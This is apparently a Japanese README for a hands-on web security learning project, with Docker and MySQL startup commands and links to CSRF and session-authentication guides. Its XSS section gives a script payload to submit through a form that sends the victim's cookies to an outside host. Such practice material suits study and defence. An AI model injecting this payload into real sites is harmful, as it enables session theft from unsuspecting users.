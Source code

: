 ## 起動

```
npx nodemon index.js
```

```
dc up -d
dc exec mysql /bin/bash 
mysql -uroot -ptest
show databases;
use test;
show tables;

+-------------------+
| Tables_in_test_db |
+-------------------+
| User              |
+-------------------+

```

## XSS

以下をフォームに入れて送信する
```
<script type='text/javascript'>document.location='https://www.google.com?cookie=' + document.cookie;</script>
```

## 認証方法

[Session Authentication](https://roadmap.sh/guides/session-authentication)

## 参考
[脆弱なサイトと罠サイトを実際に作って学ぶ『CSRF』とその対策](https://www.hypertextcandy.com/csrf-hands-on-tutorial)
[ホワイトハッカーへの道　三歩目](https://qiita.com/ichimura/items/e91df821a32aefa21bda)
